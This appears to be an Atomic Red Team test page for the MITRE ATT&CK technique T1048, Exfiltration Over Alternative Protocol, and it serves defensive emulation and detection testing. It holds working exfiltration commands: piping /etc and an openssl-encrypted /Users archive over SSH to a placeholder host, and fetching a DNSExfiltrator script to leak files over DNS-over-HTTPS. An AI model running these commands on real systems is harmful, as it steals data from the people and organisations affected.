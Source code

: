 # T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)
<blockquote>Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.  

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Adversaries may also opt to encrypt and/or obfuscate these alternate channels. 

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques)

Many IaaS and SaaS platforms (such as Microsoft Exchange, Microsoft SharePoint, GitHub, and AWS S3) support the direct download of files, emails, source code, and other sensitive information via the web console or [Cloud API](https://attack.mitre.org/techniques/T1059/009).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```






<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)
DNSExfiltrator allows for transferring (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!! 
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows


**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password used to encrypt the data to be exfiltrated | string | atomic|
| domain | The domain name to use for DNS requests | string | target.example.com|
| ps_module | DNSExfiltrator powershell ps_module | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;dnsexfil.ps1|
| doh | Google or CloudFlare DoH (DNS over HTTP) server | string | google|
| time | The time in milliseconds to wait between each DNS request | string | 500|
| encoding | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```




#### Dependencies:  Run with `powershell`!
##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})
##### Check Prereq Commands:
```powershell
if (Test-Path #{ps_module}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile #{ps_module}
```




<br/>
